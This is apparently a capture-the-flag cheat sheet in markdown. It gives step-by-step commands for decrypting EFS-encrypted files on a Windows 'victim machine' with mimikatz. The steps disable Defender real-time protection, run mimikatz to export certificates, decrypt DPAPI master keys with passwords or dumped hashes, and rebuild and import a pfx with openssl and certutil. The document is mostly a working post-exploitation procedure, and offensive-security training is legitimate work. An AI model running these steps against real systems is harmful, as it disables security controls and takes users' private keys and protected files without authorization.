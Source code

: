 ## Decrypt EFS encrypted files with mimikatz

## Requirements: System/root level access

### Example: We have a root flag that we can't read even as the SYSTEM user. We do the steps below:

#### 1) It will show you which users can decrypt the file, as well as the certificate thumbprint to export it to a .der file with mimikatz later

    cipher /c root.txt 

#### 2) Disable AV to safely download mimikatz to victim machine

    powershell set-mppreference -disablerealtimemonitoring $true 

#### 3) Transfer mimikatz.exe to the machine

#### 4) 

    ./mimikatz.exe

#### 5) 

    privilege::debug

#### 6) Obtains and exports the public key to a .der file.

    crypto::system /file:"C:\Users\USER\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\CERTIFICATE_STRING /export 

#### 7) Verify that the private key is located in this container Hint: the pUnique name is the same as earlier container name.

    dpapi::capi /in:"C:\Users\USER\AppData\Roaming\Microsoft\Crypto\RSA\USER_SID\RANDOM_NUMBERS" 

#### 8) HINT: We can also use the SHA1 hash to decrypt the masterkey. We can dump the SHA1 of the user with sekurlsa::logonpasswords command.

    dpapi::masterkey /in"C:\Users\USER\AppData\Roaming\Microsoft\Protect\USER_SID\ENCRYPTED_MASTERKEY_GUID /password:PASSWORD or /hash:SHA1_HASH 

#### 9) Obtains the private key

    dpapi::capi /in:"C:\Users\USER\AppData\Roaming\Microsoft\Crypto\RSA\USER_SID\RANDOM_NUMBERS" /masterkey:DECRYPTED_MASTERKEY 

#### 10) Transfer the .der  and the .pvk files to attacking machine with the method of your choice

#### 11) Attacking machine: 

    openssl x509 -inform DER -outform PEM -in PUBLIC_KEY.der -out public.pem

#### 12) Attacking machine: 

    openssl rsa -inform PVK -outform PEM -in PRIVATE_KEY.pvk -out private.pem

#### 13) Generate a certificate .pfx file by using the public and private .pem files we previously generated from the files extracted by mimikatz

    openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx 

#### 14) Transfer the cert.pfx file to the machine

#### 15) Victim machine: 

    certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot (Import the .pfx certificate.)

#### 16) Now we can finally read the root flag :p
